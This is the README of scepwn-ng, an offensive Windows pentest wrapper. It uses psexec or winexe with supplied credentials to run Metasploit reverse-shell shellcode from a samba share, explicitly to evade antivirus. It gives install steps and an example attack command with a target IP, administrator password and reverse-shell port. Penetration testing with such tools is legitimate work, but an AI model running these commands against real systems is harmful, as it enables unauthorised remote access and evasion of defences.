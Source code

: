 scepwn-ng
@thejosko <jskorich@secureworks.com>

INTRODUCTION
============
scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 


INSTALL
=======
Basic Setup for a kali box (skyfire):
'''
		$ cd /opt
		$ git clone https://github.com/CoreSecurity/impacket.git
		$ cd impacket; python setup.py install
		$ cd /opt; git clone https://github.com/inquisb/shellcodeexec.git
'''
If not using Kali, you will also need to install metasploit and winexe, as well as possibly modify the tool locations.

USAGE
=====

		./scepwn-ng.rb [optional]

**Example:**

		./scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444

Note - All options are just that.. optional. If you leave anything out it will ask you for it.


**Options:**

		-t, --target TARGET              
																		Target IP address
		-u, --user CREDENTIALS           
																		Credentials in DOMAIN/USERNAME%PASSWORD format
		-p, --port PORT                  
																		Reverse shell port number (default: 443)
		-s, --service SERVICE            
																		winexe or psexec (default: winexe)
		-h, --help                       
																		Display this screen
             
